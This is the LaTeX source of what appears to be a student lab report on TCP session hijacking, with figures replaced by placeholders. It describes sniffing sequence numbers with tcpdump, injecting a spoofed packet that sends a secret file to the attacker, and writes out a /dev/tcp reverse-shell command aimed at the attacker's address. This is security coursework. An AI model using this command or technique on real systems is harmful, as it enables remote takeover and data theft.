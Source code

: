 \documentclass[11pt]{article}
\newcommand{\fig}[2]{ 
\begin{figure}[h]
	\centering
	\caption{#2}
	\texttt{[image: pics/\#1]}
	\label{fig:#1}
\end{figure} 
}
\begin{document}
\fig{task3.1}{Initiating telnet connection}

Simultaneously, Attacker runs the tcpdump command used in previous tasks to gain the necessary information for spoofing a packet (in this case: IP addresses, ports, sequence number, and acknowledgment number). Figure \ref{fig:task3.2} displays the output of tcpdump.

\fig{task3.2}{Information for spoofing}

Figure \ref{fig:task3.3} shows the python used to generate the packet. Take note of two items. First, the value of the sequence number is the most recently seen number plus 10. This means the attack will not occur immediately, but instead after 10 more tcp connections. We do this in case User continues to enter information. Second, note that we now have a payload instead of an RST attack. The payload tells Server to display the contents of the file ``/home/seed/secret'' to a port on Attacker.

\fig{task3.3}{Python script to generate spoofed packet}

\newpage
Attacker then sends the packet and listens for info on the specified port. Figure \ref{fig:task3.4} shows the message received on that port as ``secret stuff.'' The attack was successful.

\fig{task3.4}{Showing results}

\newpage
\section*{Task 4}

In Task 4, we instigate a reverse shell using TCP Session Hijacking. The process for this is highly similar to what was used in Task 3. In fact, the only difference is the payload that is sent in the packet. Figure \ref{fig:task4.1} shows User initiating the telnet connection with Server.

\fig{task4.1}{Initiating telnet connection}

Figure \ref{fig:task4.2} displays the output of tcpdump with the required information.

\fig{task4.2}{Output of tcpdump}

We now arrive at the difference between the two attacks. In Figure \ref{fig:task4.3}, the variable Data now contains ``/bin/bash\_shellshock -i $>$ /dev/tcp/10.0.2.6/9090 0$<$\&1 2$>$\&1.'' This command uses the shellshock vulnerability to create a reverse shell that sends and receives its output to port 9090 on the machine 10.0.2.6 (which is Attacker).

\fig{task4.3}{Python script to generate packet} 

\newpage
On Attacker, we send the packet and listen on port 9090. Figure \ref{fig:task4.4} shows that Attacker is now able to run shell commands on Server.

\fig{task4.4}{Successful reverse shell generated}

Overall, TCP can be exploited in many ways. Encryption (in the form of ssh connections) can certainly reduce vulnerability in that malicious commands cannot be sent over the wire. However, the RST attack can still be used against ssh connections.
\end{document}
